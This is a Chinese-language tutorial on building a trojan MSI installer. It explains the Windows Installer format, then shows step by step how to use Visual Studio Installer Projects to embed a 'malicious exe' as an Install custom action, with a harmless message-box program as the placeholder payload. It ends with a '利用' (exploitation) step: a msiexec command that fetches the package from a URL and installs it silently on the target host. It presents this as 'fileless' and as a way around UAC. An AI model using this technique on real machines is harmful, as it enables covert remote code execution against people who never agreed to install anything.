msi木马创建
MSI文件
MSI 文件指的是 Windows Installer Package 文件，它是一种用于安装、升级、修复和卸载软件的安装程序包格式。
Windows Installer 是 Microsoft Windows 操作系统中的一种安装技术，用于管理和执行软件的安装和卸载过程。MSI 文件是 Windows Installer 技术的核心组成部分，它以.msi 文件扩展名来标识。
MSI 文件是一种数据库式文件，其中包含了安装程序所需的文件、注册表项、配置信息、脚本和其他相关组件。它提供了一种标准化的方式来描述和定义软件的安装过程，使得软件的安装和管理更加可靠和可预测。
通过运行 MSI 文件，Windows Installer 将打开一个安装向导，引导用户完成软件的安装过程。安装过程中，Windows Installer 会根据 MSI 文件中的指令和设置，将文件复制到适当的位置，注册组件、创建快捷方式，执行系统配置等操作，最终将软件成功安装到目标计算机上。
MSI 文件具有一些特性，如安装过程的事务性、修复和升级功能、卸载功能、自定义操作等。它们被广泛用于 Windows 系统中的软件安装，包括应用程序、驱动程序、插件和组件等。
需要注意的是，运行 MSI 文件通常需要管理员权限或适当的安装权限，以确保安装过程能够成功地对系统进行更改和配置。
常见的msi:

木马制作思路
在MSI软件包中，制作者可以使用自定义操作（Custom Actions）来执行特定的任务，例如运行可执行文件、执行脚本、修改注册表等。当执行安装过程时，MSI软件包会按照事先定义的规则和流程执行这些自定义操作。如果将恶意的exe（也可以是dll、js和vbs）文件作为msi安装过程中要运行的文件，将直接触发恶意代码。
msiexec是Windows操作系统中的命令行实用程序，用于处理MSI（Microsoft Installer）文件。它是Microsoft Installer的执行引擎，负责解析和执行MSI文件中定义的安装、修复、更新和卸载操作。msiexec支持远程加载msi文件并安装。
相当于通过msiexec间接运行我们的恶意exe，整个过程无文件落地。
创建msi文件
msi文件可以通过Advanced Installer1，Discover2，或者Visual Studio等方式创建，这里我们以Visual Studio 2022为例。
下载安装插件
首先要下载安装Visual Studio Installer Projects插件，在vs中点击左上角拓展—>管理拓展，直接搜索下载安装

这样可能会比较慢，也可以直接下载拓展包安装。
添加Setup Project项目
创建一个新的Setup Project项目

添加项目输出

选择主输出

可能会遇到项目输出是空的情况，应该是解决方案配置的问题，建议不要创建一个Setup Project项目的解决方案，而是在已有解决方案项目的情况下添加Setup Project项目

添加恶意exe
右键项目选择自定义操作

发现有四个操作分别为"安装"、"提交"、"回滚"和"卸载"

在安装程序中，“安装”、“提交”、"回滚"和"卸载"是四个常见的操作类型，它们用于描述不同的安装过程中的行为和阶段。
- 安装（Install）：安装操作是指将应用程序或软件包安装到目标计算机上的过程。在安装操作中，文件、注册表项、服务、组件等将被复制、配置和注册到目标计算机的适当位置。通常，安装操作会创建所需的目录结构、注册必要的组件，并执行其他必要的配置任务。
- 提交（Commit）：提交操作是指在安装过程中，当所有的文件和配置都已成功复制和注册到目标计算机时，确认将更改应用到系统的阶段。在提交操作之前，所有的安装操作都被视为临时性的。提交操作会将安装所做的更改永久性地应用到系统中，以确保应用程序的完整性和可用性。
- 回滚（Rollback）：回滚操作是指当安装过程中发生错误或遇到问题时，将安装过程还原到初始状态的过程。如果在安装过程中出现错误，安装程序可以回滚（撤销）之前的所有操作，以恢复目标计算机到安装前的状态，以避免对系统造成不可逆的更改。
- 卸载（Uninstall）：卸载操作是指从目标计算机中完全移除已安装的应用程序或软件包的过程。在卸载操作中，与安装过程相反，文件、注册表项、服务等与应用程序相关的组件将被删除，以及执行其他必要的清理任务。
我们选择”安装“，右键添加自定义操作
Add File可以添加具体的运行文件，这里以一个简单的弹框exe模拟恶意脚本

点击OK则成功添加到”安装“操作中

点击重新生成将生成两个文件，msi文件就是我们嵌入了恶意exe的目标文件

利用
先用python起一个临时服务器，然后再目标主机上运行
1 | msiexec /i msi文件的url地址 /q TARGETDIR="C:/Users/Public/Documents" |
/i是 msiexec 命令的参数，表示执行安装操作。/q是 msiexec 命令的参数，表示以安静（静默）模式执行安装，即在不显示任何用户界面的情况下执行安装过程。- TARGETDIR指定程序的安装位置，不指定的话则默认安装到Program Files下，则会有权限不够以及UAC的情况
发现恶意exe被执行（messagebox.exe的功能就是弹出一个niupi）

参考：
使用VisualStudio2022插件(Visual Studio Installer Projects 2022)打包 .Net 6 框架下的 WPF项目 为安装文件